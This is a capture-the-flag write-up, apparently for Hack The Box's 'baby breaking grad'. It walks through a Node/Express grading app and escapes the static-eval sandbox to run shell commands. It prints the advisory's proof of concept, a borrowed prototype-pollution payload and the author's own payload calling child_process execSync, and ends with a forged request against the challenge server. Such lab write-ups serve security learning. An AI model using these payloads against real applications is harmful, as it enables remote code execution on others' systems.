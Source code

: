 # Intro

The website seems like as simple as choose between two names and press the button "did i pass" and the output seems the same for both "NOOOPE".

# Whatweb

```
http://134.122.104.208:30996/ [200 OK] Country[UNITED STATES][US], HTML5, IP[134.122.104.208], Meta-Author[makelaris, makelarisjr], Script[text/javascript], Title[inside starship enterprise], X-Powered-By[Express]
```

# Analysing the source code

## main.js

Looking at the main.js source code all that matters for us is the last listener

```
document.getElementById('form').addEventListener('submit', e => {
	e.preventDefault();

	fetch('/api/calculate', {
		method: 'POST',
		body: JSON.stringify({
			name: document.querySelector('input[type=radio]:checked').value
		}),
		headers: {'Content-Type': 'application/json'}
	}).then(resp => {
		return resp.json();
	}).then(data => {
		document.getElementById('output').innerHTML = data.pass;
	});

});
```
It takes the form value and send a POST request to the /api/calculate endpoint in the json format.

## routes/index.js

In this file is specified all the endpoints and how to deal with them.
The router that it matters for this challenges is the /api/calculate.

```
router.post('/api/calculate', (req, res) => {
    let student = req.body;

    if (student.name === undefined) {
        return res.send({
            error: 'Specify student name'
        })
    }

    let formula = student.formula || '[0.20 * assignment + 0.25 * exam + 0.25 * paper]';

    if (StudentHelper.isDumb(student.name) || !StudentHelper.hasPassed(student, formula)) {
        return res.send({
            'pass': 'n' + randomize('?', 10, {chars: 'o0'}) + 'pe'
        });
    }

    return res.send({
        'pass': 'Passed'
    });
});
```

Basically what it does is:

- Check if the name is null
- Then if the parameter formula is not passed it will assign the second value to the formula variable.
- Then it will check with the fucntions from StudentHelper.js if we pass or not.

At this point we notice that we can control the value of name and a new one called formula.
This may be bad because in theory it lets the student specify which formula he wants.

Since the if statement is a OR we need to have FALSE in both to avoid enter in the IF.
Lets analyze the StudentHelper.js to see how we can bypass the functions there.

## helpers/StudentHelper.js

```
const evaluate = require('static-eval');
const parse = require('esprima').parse;

module.exports = {
    isDumb(name){
        return (name.includes('Baker') || name.includes('Purvis'));
    },

    hasPassed({ exam, paper, assignment }, formula) {
        let ast = parse(formula).body[0].expression;
        let weight = evaluate(ast, { exam, paper, assignment });

        return parseFloat(weight) >= parseFloat(10.5);
    }
};

```

After some time analysing this function I notice one thing I was focus on the wrong goal, my goal is to get the flag and not pass the grade.

Note: WE can pass the grade by applying one of the following payloads:

```
{
  "name":"none",
  "exam":5,
  "paper":5,
  "assignment":1,
  "formula":"[assignment + exam + paper]"
}
```

```
{"name":"none","exam":200,"paper":200,"assignment":200}
```

## Vulnerability

Searching for ways to read the flag I found this link https://github.com/advisories/GHSA-8v27-2fg9-7h62.
It seems like the static-eval has a Arbitrary COde execution vulnerability.


```

All versions of package static-eval are vulnerable to Arbitrary Code Execution using FunctionExpressions and TemplateLiterals. PoC: var evaluate = require('static-eval'); var parse = require('esprima').parse; var src="(function (x) { return ${eval("console.log(global.process.mainModule.constructor._load('child_process').execSync('ls').toString())")} })()" var ast = parse(src).body[0].expression; evaluate(ast)

```

Looking at the payload and applying to our case we need to pass the variable formula with the payload and read the flag.
Since we cant return the contents in the response we have two options:

- Send the flag to our server
- Create a file in the challenge server in the static directory and read the contents.

## Test environment

We will use the second option first and then explore the first one.
To ensure that we can exploit this vulnerability we will create a simple application with the vulnerability in our envirnoment.

- mkdir esprima-test && cd esprima-test
- npm init
- npm install --save esprima@
- npm install --save static-eval@2.0.
- create a index.js

```
const parse = require('esprima').parse
const evaluate = require('static-eval')

const program = '3*4'
const ast = parse(program).body[0].expression
let result = evaluate(ast)
console.log(result)
```

## Finding the right vulnerability

Since the version for static-eval is 2.0.2 we can go to the github repo and look for fixes in later versions.
This means that in previous versions like 2.0.2 we have vulnerabilites
Lets look at the 2.0.3 in https://github.com/browserify/static-eval/tags
Looking at the realese description we see:

```
Disallows accessing .constructor and .__proto__ properties, which could be used to access the Function() constructor. (#27)
Thanks to an anonymous reporter!
```

And if we Open the merge request we have a test file:

https://github.com/browserify/static-eval/pull/27/commits/b0c80ab8d8cb6fc9b48f3605f6f240f7e94fc670#diff-cc0f920a07c6f12cbd048f51fc7e0c807eef485f03db389f93f912d73829828b

In this step i got stucked an started to read an exploit created by another user:

https://braincoke.fr/write-up/hack-the-box/baby-breaking-grad/

```

// Prototype pollution of variable polluted
// when accessing the variable value we call its getter
const program =  "`${({})['__proto__']['__defineGetter__']('polluted', function(){ return `${console.log(process.env)}`; })}`"


// We just need to trigger the getter function
// which displays the value of process.env
polluted

```

I tried creating a payload like the following:

```
const program =  "`${({})['__proto__']['__defineGetter__']('polluted', function(){ return `${console.log(process.mainModule.constructor._load('child_process').execSync('ls').toString())}`; })}`"
```

Result: Maximum call stack size exceeded

Well it seems I'm stuck again lets look at all the commits from 2.0.2 to 2.0.3.
https://github.com/browserify/static-eval/commits/v2.0.3

The second commit seems interesting...

https://github.com/browserify/static-eval/commit/0bcd9dc93f42898dfd832a10915a4544e11b8f13

Using the second test payloads in the /test/eval.js

We create the following payload 

```
const program = '(function myTag(y){return ""[!y?"__proto__":"constructor"][y]})("constructor")("console.log(process.mainModule.constructor._load(\'child_process\').execSync(\'ls\').toString())")()'
```
Using it in our test envirnoment we are able to execute the command no problem. Lets FORGE THE REQUEST


{"name":"none","formula":"(function myTag(y){return ""[!y?"__proto__":"constructor"][y]})("constructor")("console.log(process.mainModule.constructor._load(\'child_process\').execSync(\'ls\').toString())")()"
}